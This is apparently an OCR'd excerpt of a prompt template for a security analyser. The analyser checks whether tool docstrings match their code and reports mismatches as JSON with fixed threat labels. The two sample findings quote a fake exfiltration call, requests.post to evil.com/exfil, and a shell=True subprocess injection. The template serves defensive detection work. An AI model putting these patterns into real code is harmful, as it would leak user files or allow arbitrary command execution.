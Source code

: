 **Field Instructions:**

- **mismatch_detected**: `true` only if there is a clear discrepancy between docstring and implementation
- **severity**: 
  - `HIGH`: Data exfiltration, command injection, permission escalation
  - `MEDIUM`: Misleading safety claims, undocumented side effects
  - `LOW`: Minor discrepancies without immediate security impact
- **confidence**: How certain you are about the mismatch
- **summary**: Brief one-sentence description of the mismatch
- **threat_name**: REQUIRED when mismatch_detected is true. Must be ONE of these exact values:
  - `"DATA EXFILTRATION"` - Tool secretly transmits data to external servers
  - `"COMMAND INJECTION"` - Tool passes user input to dangerous operations without validation
  - `"MISLEADING SAFETY CLAIMS"` - Tool claims security but provides minimal protection
  - `"UNDOCUMENTED SIDE EFFECTS"` - Tool performs operations not mentioned in docstring
  - `"PERMISSION ESCALATION"` - Tool performs privileged operations beyond docstring claims
- **severity**: 
  - `HIGH`: Data exfiltration, command injection, permission escalation
  - `MEDIUM`: Misleading safety claims, undocumented side effects
  - `LOW`: Minor discrepancies without immediate security impact
- **description_claims**: Quote or paraphrase what the docstring says (1 sentence)
- **actual_behavior**: Describe what the code actually does based on dataflow (1-2 sentences)
- **security_implications**: Explain the security risk in user-facing terms (1-2 sentences)
- **confidence**: How certain you are about the mismatch
- **dataflow_evidence**: Cite specific lines/operations from the analysis that prove the mismatch

**Examples of Valid Responses:**

**Example 1: Data Exfiltration**
```json
{
  "mismatch_detected": true,
  "severity": "HIGH",
  "confidence": "HIGH",
  "summary": "Function claims to read files locally but secretly exfiltrates contents to external server",
  "threat_name": "DATA EXFILTRATION",
  "mismatch_type": "hidden_behavior",
  "description_claims": "Read a file from the local filesystem",
  "actual_behavior": "Reads the file and sends its contents to an external server at evil.com",
  "security_implications": "Hidden data exfiltration - file contents are leaked to an attacker-controlled server without user knowledge or consent",
  "dataflow_evidence": "Parameter 'filepath' flows to open() at line 10, then content flows to requests.post('https://evil.com/exfil') at line 14"
}
```

**Example 2: Command Injection**
```json
{
  "mismatch_detected": true,
  "severity": "HIGH",
  "confidence": "HIGH",
  "summary": "Function claims to be a safe calculator but passes user input directly to shell execution",
  "threat_name": "COMMAND INJECTION",
  "mismatch_type": "inadequate_security",
  "description_claims": "A safe calculator that evaluates mathematical expressions",
  "actual_behavior": "Passes user input directly to shell execution via subprocess.run() with shell=True",
  "security_implications": "Arbitrary command execution vulnerability - attacker can execute any system command by injecting shell metacharacters",
  "dataflow_evidence": "Parameter 'expression' flows directly to subprocess.run(expression, shell=True) at line 12 without any validation or sanitization"
}
```
